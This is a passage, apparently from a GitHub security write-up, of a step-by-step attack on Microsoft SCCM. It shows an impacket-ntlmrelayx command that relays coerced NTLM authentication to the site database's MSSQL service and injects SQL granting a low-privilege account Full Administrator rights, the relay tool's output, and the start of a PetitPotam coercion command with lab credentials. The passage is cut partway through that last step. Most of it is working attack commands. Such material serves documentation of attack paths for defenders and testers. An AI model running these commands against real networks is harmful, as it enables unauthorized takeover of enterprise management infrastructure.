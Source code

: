     [+] Current user: MAYYHEM\lowpriv
    [+] Active Directory SID for current user: S-1-5-21-622943703-4251214699-2177406285-1112
    [+] Active Directory SID (hex): 0x010500000000000515000000D75D21256B6364FD4D95C88158040000
    [+] Completed execution in 00:00:00.1959610
    ```

2. On the attacker relay server, start `ntlmrelayx`, targeting the IP address of the site database server and the MSSQL service using the SQL statements assembled in the previous step:

    ```
    # impacket-ntlmrelayx -smb2support -ts -ip <NTLMRELAYX_LISTENER_IP> -t mssql://<SITE_DATABASE_IP> -q "USE CM_ps1; INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (0x010500000000000515000000D75D21256B6364FD4D95C88158040000,'MAYYHEM\lowpriv',0,0,'','','','','ps1');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'MAYYHEM\lowpriv'),'SMS0001R','SMS00ALL','29');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'MAYYHEM\lowpriv'),'SMS0001R','SMS00001','1'); INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'MAYYHEM\lowpriv'),'SMS0001R','SMS00004','1');"

    Impacket v0.11.0 - Copyright 2023 Fortra

    [2024-02-22 16:37:11] [*] Protocol Client MSSQL loaded..
    [2024-02-22 16:37:11] [*] Protocol Client LDAPS loaded..
    [2024-02-22 16:37:11] [*] Protocol Client LDAP loaded..
    [2024-02-22 16:37:11] [*] Protocol Client RPC loaded..
    [2024-02-22 16:37:11] [*] Protocol Client HTTPS loaded..
    [2024-02-22 16:37:11] [*] Protocol Client HTTP loaded..
    [2024-02-22 16:37:11] [*] Protocol Client IMAP loaded..
    [2024-02-22 16:37:11] [*] Protocol Client IMAPS loaded..
    [2024-02-22 16:37:11] [*] Protocol Client SMTP loaded..
    [2024-02-22 16:37:11] [*] Protocol Client SMB loaded..
    [2024-02-22 16:37:11] [*] Protocol Client DCSYNC loaded..
    [2024-02-22 16:37:11] [*] Running in relay mode to single host
    [2024-02-22 16:37:11] [*] Setting up SMB Server
    [2024-02-22 16:37:11] [*] Setting up HTTP Server on port 80
    [2024-02-22 16:37:11] [*] Setting up WCF Server
    [2024-02-22 16:37:11] [*] Setting up RAW Server on port 6666

    [2024-02-22 16:37:11] [*] Servers started, waiting for connections
    ```

3. From the attacker host, coerce NTLM authentication from the site server via SMB, targeting the relay server's IP address:

    ```
    # python3 PetitPotam.py -d MAYYHEM.LOCAL -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <SITE_SERVER_IP>              
